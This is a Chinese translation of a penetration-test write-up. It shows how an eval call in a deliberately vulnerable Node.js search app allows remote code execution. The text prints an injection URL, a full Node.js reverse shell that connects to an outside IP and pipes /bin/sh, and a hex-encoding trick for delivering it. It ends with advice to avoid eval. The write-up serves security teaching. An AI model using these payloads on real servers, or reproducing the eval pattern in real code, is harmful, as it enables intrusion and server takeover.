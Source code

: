 > 原文链接: https://www.anquanke.com//post/id/83988 


# Node.js应用中的逆向Shell


                                阅读量   
                                **79517**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t0196424f0de59f8503.jpg)](https://p2.ssl.qhimg.com/t0196424f0de59f8503.jpg)

我们如何在安全评估活动中利用Node.js应用程序中的漏洞来获取JavaScript逆向Shell呢?

介绍

在此之前,一个小型的web开发团队曾委托我们对他们移动应用程序的后台服务进行安全评估。值得一提的是,该后台程序的API(应用程序编程接口)开发全部遵循的是Rest风格。REST全称为REpresentational State Transfer,即表述性状态转移。REST指的是一组架构约束条件和原则,满足这些约束条件和原则而设计开发出来的应用程序编程接口就是REST API。REST并不是一种新兴的什么技术语言,也不是什么新的框架,而是一种概念、风格或者约束。

这种框架结构实际上是非常简洁的,整个架构中只需要使用三台Linux服务器。

-Node.js(一个Javascript运行环境)

-MongoDB(一个基于分布式文件存储的数据库)

-Redis(一个开源的Key-Value数据库)

首先,我们在无法访问到程序源代码的情况下对程序后台进行了一些随机测试。我们发现,如果在后台应用程序的某些数据输入接口中输入一些特殊字符时,将会引起程序的意外崩溃。

除此之外我们还注意到,我们可以在不经过身份验证的情况下从外网访问到应用程序的Redis服务器。

接下来,我们的任务就是对Node.js的应用程序编程接口代码进行安全审查,并找出引起程序崩溃的原因。

对存在漏洞的应用程序进行简化

我们创建出了这个小型的Node.js应用程序,该程序中同样含有存在漏洞的功能函数。如果用户想要尝试去利用这一漏洞,那么可以使用这一应用程序来进行测试。

Node.js网站服务器会等待类似[http://target.tld//?name=do*](http://target.tld/?name=do*)的查询语句传入服务器,并在网站数据库中搜索与查询语句中“name”参数相匹配的数据条目。

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');
const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);
function requestHandler(req, res) `{`
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, `{`"Content-Type": "application/json"`}`);
    if (queryData.name) `{`
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    `}` else `{`
        res.end();
    `}`
`}`
function getAnimals(query) `{`
    let result = [];
    for (let animal of animals) `{`
        if (query.test(animal.name))
            result.push(animal);
    `}`
    return result;
`}`
function stringToRegexp(input) `{`
    let output = input.replace(/[[]\^$.|?+()]/, "\$&amp;");
    let prefix, suffix;
    if (output[0] == '*') `{`
        prefix = '/';
        output = output.replace(/^*+/g, '');
    `}` else `{`
        prefix = '/^';
    `}`
    if (output[output.length - 1] == '*') `{`
        suffix = '/i';
        output = output.replace(/*+$/g, '');
    `}` else `{`
        suffix = '$/i';
    `}`
    output = output.replace(/[*]/, '.*');
    return eval(prefix + output + suffix);
`}`
const server = http.createServer(requestHandler);
server.listen(3000);
[
    `{`"name": "Dinosaur"`}`,
    `{`"name": "Dog"`}`,
    `{`"name": "Dogfish"`}`,
    `{`"name": "Dolphin"`}`,
    `{`"name": "Donkey"`}`,
    `{`"name": "Dotterel"`}`,
    `{`"name": "Dove"`}`,
    `{`"name": "Dragonfly"`}`,
    `{`"name": "Duck"`}`
]
```

漏洞信息

在我们的安全研究人员对代码中存在漏洞的地方进行了几分钟的分析测试之后,我们注意到了一个明显带有设计缺陷的地方,而这个问题将会直接导致攻击者能够实现远程代码执行。

stringToRegexp函数会创建出一个RegExp对象(正则表达式对象)来对用户的输入数据进行检测,并利用这个正则表达式对象来搜索数组中的有效数据元素。

```
return eval(prefix + output + suffix); // 我们在这里需要控制函数的返回值
```

我们可以在output变量中插入并执行我们的JavaScript代码。

stringToRegexp函数可以过滤掉数据中的某些特殊字符,并且对output变量的值进行审查。

```
["./;require('util').log('Owned');//*"]
```

当我们使用浏览器访问下方列出的网站地址之后,系统将会在服务器的终端打印一条信息。

```
http://target.tld/?name=["./;require('util').log('Owned');//*"]
```

通过这样的方法,我们就可以执行代码,并获取到服务器的交互Shell(例如/bin/sh)。

Node.js逆向Shell

下方所显示的JavaScript代码就是一个Node.js逆向Shell。

代码中的Payload将会生成一个/bin/sh Shell,并允许攻击者与目标服务器创建一条TCP链接,然后在通信数据流中绑定shell命令。

```
(function()`{`
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function()`{`
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    `}`);
    return /a/; // 防止Node.js应用程序崩溃
`}`)();
```

为了有效地运行我们的Payload,我们使用了一个小技巧。我们将逆向Shell Payload编码成了十六进制格式,并且使用了Node.js的Buffer对象来对其进行解码操作。

http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]

总结

在得到了上述的分析结果之后,我们强烈建议用户尽量避免在JavaScript项目中使用eval函数。对应的解决方案也十分简单,用户可以直接使用RegExp对象来对数据进行操作。
